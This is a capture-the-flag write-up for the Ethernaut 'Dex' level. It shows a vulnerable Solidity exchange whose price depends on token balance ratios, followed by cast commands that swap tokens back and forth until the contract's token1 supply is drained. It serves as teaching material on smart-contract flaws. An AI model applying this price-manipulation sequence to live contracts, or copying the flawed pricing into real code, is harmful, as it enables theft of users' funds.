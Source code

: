 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of token1 to token2, we can continouly swap the two tokens for each other till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
1. call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

2. let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

3. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 0
token2 : 20

[dex balance]
token1 : 110 
token2 : 90
```

3. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 24
token2 : 0

[dex balance]
token1 : 86 
token2 : 110
```

4. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 0
token2 : 30

[dex balance]
token1 : 110 
token2 : 80
```

5. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 41
token2 : 0 

[dex balance]
token1 : 69
token2 : 110
```

6. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 0
token2 : 65

[dex balance]
token1 : 110 
token2 : 45
```

7. we cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 --private-key $PRIVATE_KEY
```
update of balances 
```
[our balance]
token1 : 110
token2 : 20

[dex balance]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained
